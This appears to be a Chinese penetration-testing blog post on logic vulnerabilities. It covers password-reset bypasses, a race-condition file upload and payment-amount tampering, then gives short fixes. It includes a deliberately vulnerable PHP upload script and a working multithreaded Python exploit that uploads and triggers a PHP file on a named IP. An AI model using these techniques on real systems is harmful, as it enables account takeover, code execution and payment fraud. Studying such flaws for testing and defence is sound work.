 +++
date = "2016-07-31T18:43:49+08:00"
description = ""
draft = false
tags = ["逻辑漏洞"]
title = "逻辑漏洞"
topics = ["Pentest"]

+++

### 0x00 逻辑漏洞
> ```
逻辑漏洞是一种业务逻辑上的设计缺陷，业务流存在问题。
这里说一下密码找回漏洞、多线程条件竞争漏洞和支付漏洞。
```

### 0x01 密码找回漏洞
* 测试流程
    * 先尝试正确的密码找回流程，记录不同找回方式的所有数据包
    * 分析数据包，找到有效数据部分
    * 推测数据构造方法
    * 构造数据包验证猜测

* 分类
    * 邮箱找回

    > ```
    一般是点击邮件中的链接后会转跳到修改密码的页面，需要分析链接的token构造，可以考虑是时间戳md5、用户名或邮箱和随机字符串md5等，一般是类似如下链接：
    http://domain/findpwd.php?u=xiaoming&token=MTIzQHFxLmNvbQ==
    http://domain/findpwd.php?id=374&token=2ad64bf14c714dbce88c7993663da7da
    当构造相应链接时就可以重置任意用户的密码
    ```

    * 手机短信找回

    > ```
    短信找回一般就是4位或6位验证码，暴力猜测吧
    ```

    * 找回逻辑错误

    > ```
    若恶意用户A用15123333333找回密码，此时收到验证码但不使用
    此时恶意用户A再用受害者B的手机号找回密码
    用户A在B的验证表单填入自己收到的验证码，发送
    此时跳转的修改密码页面修改的就是用户B的密码
    ```

    * 直接修改密码
    
    > ```
    在修改密码时跳过选择找回方式，直接访问修改密码的页面进行修改
    ```
    
    * 本地验证

    > ```
    随意输入一个验证码，开Burp抓包，forward，抓返回包，返回包里可能有一个flag字段，
    若flag的值为1则跳转到修改密码页面，所以只要修改返回包即可
    ```

    * 服务端将验证码返回给浏览器
    
    > ```
    在点击获取验证码时，服务器会将验证码发送给浏览器，抓包即可
    ```

    * 验证码直接出现在url中

    > ```
    当点击获取验证码时发出的请求链接中直接有code
    ```
    
    * 密保问题找回

    > ```
    回答密保问题，有时一些答案就在html源码里
    ```

### 0x02 多线程条件竞争漏洞
> 多线程条件竞争漏洞是一种服务端的漏洞，服务端是并发处理用户请求的,  
若并发处理不当或相关操作逻辑设计有缺陷时就会产生一些安全问题。

* 文件上传

> 服务端可以sudo apt-get install inotify-tools安装监听文件的软件，  
执行inotifywait -m /var/www/html/admin监听admin文件夹中文件的变化
```php
//uploads.php代码如下，仅供测试：
<meta charset='utf-8'>
<?php
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";

    $filename = $_FILES['myfile']['name'];

    if (is_uploaded_file($_FILES['myfile']['tmp_name'])){
        if (!move_uploaded_file($_FILES['myfile']['tmp_name'],$path.$filename)){
            die("error:can not move!");
        }
    } else {
        die("error:not an upload file！");
    }

    echo "file upload success.file path is: ".$path.$newfile."\n<br />";

    if ($_FILES['myfile']['error']>0){
        unlink($path.$newfile);
        die("Upload file error: ");
    }

    $ext = array_pop(explode(".",$_FILES['myfile']['name']));
    if (!in_array($ext,$allowtype)){
        unlink($path.$newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
?>
```

* 简单利用代码如下：

> ```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import threading
import time

"""
200个线程上传文件aa.php，同时200个线程同时请求aa.php，aa.php中内容为
<?php fputs(fopen("info.php","w"),"<?php phpinfo(); ?>") ?>，
只要aa.php被请求成功就会生成内容为<?php phpinfo(); ?>的php文件info.php
"""

is_exit = False

def create_info():
    global is_exit
    while not is_exit:
        url = "http://123.206.78.220/uploads/aa.php"
        resp = requests.get(url)

def put_file():
    global is_exit
    file = {'myfile':('aa.php',open('C:/Users/Administrator/Desktop/aa.php'),'application/octet-stream')}
    upload_url = "http://123.206.78.220/uploads.php"
    while  not is_exit:
        requests.post(upload_url,files=file)

def check_info():
    global is_exit
    print "start threading check info.php:"
    url = "http://123.206.78.220/uploads/info.php"
    while True:
        print "check info.php..."
        resp = requests.get(url)
        if resp.status_code == 200:
            is_exit = True
            print "create file info.php success."
            break

for x in xrange(1,200):
    t = threading.Thread(target=create_info)
    t.setDaemon(True)
    t.start()
    print "start create_into threading %d" % x

for x in xrange(1,200):
    t = threading.Thread(target=put_file)
    t.setDaemon(True)
    t.start()
    print "start put_file threading %d" % x


t = threading.Thread(target=check_info)
t.setDaemon(True)
t.start()
try:
    while t.isAlive():
        pass
    time.sleep(1)
except KeyboardInterrupt:
    print 'stopped by keyboard'
 ```

* 数据库操作

> ```
在数据库进行update、delete等操作时使用多线程请求，可在一次
update时间内完成多次update，和上面的文件上传其实是一个原理
```


### 0x03 支付漏洞
> ```
攻击者通过修改交易金额、交易数量等从而利用漏洞，
如Burp修改交易金额、使交易数量为负数或无限大等。

* 在支付时直接修改数据包中的支付金额，实现小金额购买大金额商品
* 修改购买数量，使之为负数，可购买负数量商品，从而扣除负积分，即增加积分，
  或使购买数量无限大，无限大时则程序可能处理出错，从而实现0金额支付
* 请求重放，在购买成功后重放请求，可实现"一次购买对此收货"
```

### 0x04 漏洞修复
* 对于密码重置漏洞，可以使用复杂的token，使之不可被预测
* 对于密码重置漏洞，校验refer，不使用本地校验等
* 对于多线程竞争漏洞，文件移动一定在一切判断之后，对于数据库则可以设置锁
* 对于支付漏洞，主要就是签名了，或者https
